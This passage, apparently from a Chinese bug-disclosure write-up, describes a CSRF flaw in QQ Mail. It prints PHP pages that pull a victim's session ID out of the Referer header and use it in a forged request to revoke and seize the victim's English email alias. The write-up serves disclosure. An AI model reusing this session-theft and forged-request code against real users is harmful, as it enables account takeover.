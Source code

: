 

然后洞主把链接丢了上去就返回了SID

 

[![](https://p4.ssl.qhimg.com/t017a7046c8dceb6832.png)](https://p4.ssl.qhimg.com/t017a7046c8dceb6832.png)



**【可以在一个页面内完成获取SID，申请撤销英文邮箱】**

得到后，可以将它SID字段提取出来，保存为参数：

```
&lt;html&gt;
      &lt;head&gt;
              &lt;meta http-equiv="Content-Type" content="text/html; charset=UTF-8"&gt;
              &lt;title&gt;QQmail-CSRF-TEST&lt;/title&gt;
      &lt;/head&gt;
      &lt;body&gt;
&lt;?php
       $ref = $_SERVER['HTTP_REFERER'];
    echo $ref[45].$ref[46].$ref[47].$ref[48].$ref[49].$ref[50].$ref[51].$ref[52].$ref[53].$ref[54].$ref[55].$ref[56].$ref[57].$ref[58].$ref[59].$ref[60]
?&gt;
       &lt;/body&gt;
&lt;/html&gt;
```

然后洞主依旧吧SID提取出来的脚本保存在自己的博客上

```
http://www.vimaggie.cn/test2.php
```



最后用JS，对账号进行撤销：

脚本如下：

```
&lt;html&gt;
      &lt;head&gt;
              &lt;meta http-equiv="Content-Type" content="text/html; charset=UTF-8"&gt;
              &lt;title&gt;QQmail-CSRF-TEST&lt;/title&gt;
      &lt;/head&gt;
      &lt;body&gt;
&lt;?php
       $ref = $_SERVER['HTTP_REFERER'];
       $ref2 = $ref[45].$ref[46].$ref[47].$ref[48].$ref[49].$ref[50].$ref[51].$ref[52].$ref[53].$ref[54].$ref[55].$ref[56].$ref[57].$ref[58].$ref[59].$ref[60]
      
?&gt;
      
      &lt;script src="http://set1.mail.qq.com/cgi-bin/modify_alias?action=apply&amp;sid=&lt;?php echo $ref2; ?&gt;&amp;t=apply_delalias&amp;s=done&amp;alias=要抢占的QQ英文邮箱"&gt;
      &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```
